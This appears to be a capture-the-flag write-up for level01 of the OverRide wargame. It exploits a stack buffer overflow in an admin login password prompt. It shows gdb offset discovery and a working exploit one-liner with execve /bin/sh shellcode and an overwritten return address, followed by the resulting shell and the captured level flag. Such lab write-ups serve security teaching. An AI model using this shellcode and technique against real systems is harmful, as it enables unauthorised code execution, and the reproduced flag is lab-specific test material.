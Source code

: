     knowing that password is only 64 bytes length [**memset(0, 64)**]
    so clearly we have a vulnerability of buffer overflow in this buffer (password buffer)

- the idea of the exploit is clear :
    1. find the offset of overflow in passwd input
    1. inject our shellcode in that buffer
    1. overwrite EIP address to point to the start of that buffer which will be containing Shellcode
- **find the offset of buffer overflow :**   
```txt
(gdb) run 
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_will
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? () <------------------------------------= offset : 80
(gdb)
```
- **Prepare the payload**:
>username : dat_will
>password : SHELLCODE(21 bytes) + PADDING (59 bytes) + NEW_EIP [address of buffer where shellcode stored] (4 bytes)
- use ltrace to get the address of buffer where shellcode is saved
---
### Solution :

```shell
level01@OverRide:~$     (python -c 'print "dat_will"'; python -c 'print  "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"  + "P" * 59 + "\xff\xff\xd5\xec"[::-1]'; cat -)  | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

pwd
/home/users/level01
whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

**`flag : PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`**

---

### Ressources :
N/A